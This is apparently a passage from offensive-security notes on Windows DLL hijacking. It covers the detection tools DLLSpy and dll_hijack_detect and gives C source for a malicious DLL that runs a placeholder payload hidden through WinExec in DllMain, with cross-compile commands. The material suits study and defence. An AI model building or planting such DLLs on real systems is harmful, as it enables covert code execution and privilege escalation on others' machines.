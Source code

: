 If we have access to **Write** access to those folders, we could replace the .DLL with a malicious one.

There is a tool developped by CyberArk called [DLLSpy](https://github.com/cyberark/DLLSpy) that can detects DLL hijacking in running processes, services and in their binaries.
Note that DLLSpy requires admin privilege.
We can also try by using "Start-Process"

```bash
DLLSpy.exe
Start-Process -PassThru process.exe | Get-Process -Module
```

[dll_hijack_detect](https://github.com/adamkramer/dll_hijack_detect) detects DLL hijacking in running processes on Windows systems
This program will:

1) Iterate through each running process on the system, identifying all the DLLs which they have loaded
2) For each DLL, inspect all the locations where a malicious DLL could be placed
3) If a DLL with the same name appears in multiple locations in the search order, perform an analysis based on which location is currently loaded and highlight the possibility of a hijack to the user

It also check each DLL to see whether it has been digitally signed.
This is because since Windows Vista and Windows Server 2008, new features take advantage of code-signing technologies:

- Administrator privilege is required to install unsigned kernel-mode components (device drivers, filter drivers, services, and so on.)

```bash
.\dll_hijack_detect_x64.exe
```

Here below is the code to create a malicious DLL

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 WinExec(PAYLOAD,SW_HIDE);
 return 0;
}
```

Here are the command to compile it:

```bash
# x86
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib, main.a
# x64
x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib, main.a
```

The **-DBUILDING_EXAMPLE_DLL** compiler option causes the DLL's functions to be declared as "dllexport", meaning that they will be "exported" from the DLL and available to client applications.
The **-shared**"** option tells the linker to create a DLL instead of an .exe
